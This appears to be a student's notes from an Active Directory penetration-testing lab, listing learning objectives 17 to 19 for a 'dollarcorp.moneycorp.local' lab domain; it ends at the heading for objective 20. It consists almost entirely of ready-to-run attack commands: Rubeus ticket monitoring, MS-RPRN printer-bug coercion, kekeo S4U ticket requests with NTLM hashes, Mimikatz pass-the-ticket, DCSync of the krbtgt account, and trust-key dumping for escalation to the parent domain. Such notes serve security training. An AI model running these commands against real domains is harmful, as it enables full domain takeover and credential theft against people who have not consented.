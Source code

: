 
# Learning Objective 17

• Find a server in dcorp domain where Unconstrained Delegation is enabled. 
	- `Get-NetComputer -UnConstrained`
• Access that server, wait for a Domain Admin to connect to that server and get Domain Admin privileges.
	- `<UNCONSTRAINED DELEGATION ENABLED COMPUTER> .\Rubeus.exe monitor /interval:5 /nowrap`
	- `<STUDENT VM> .\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local`
	- `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`

# Learning Objective 18

• Enumerate users in the domain for whom Constrained Delegation is enabled. `Get-DomainUser –TrustedToAuth`
– For such a user, request a TGT from the DC and obtain a TGS for the service to which delegation is configured. 
	- `kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f`
	- `tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL`
– Pass the ticket and access the service as DA. 
	- `Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'`
	- `ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$`

• Enumerate computer accounts in the domain for which Constrained Delegation is enabled. `Get-DomainComputer –TrustedToAuth`
– For such a computer, request a TGT from the DC.
	- `tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67`
	- `tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorpdc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL`
	- `Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorpdc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'`
– Use the TGS for executing the DCSync attack.
	- `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`

# Learning Objective 19

Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using the domain trust key.
	- `Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc`

# Learning Objective 20
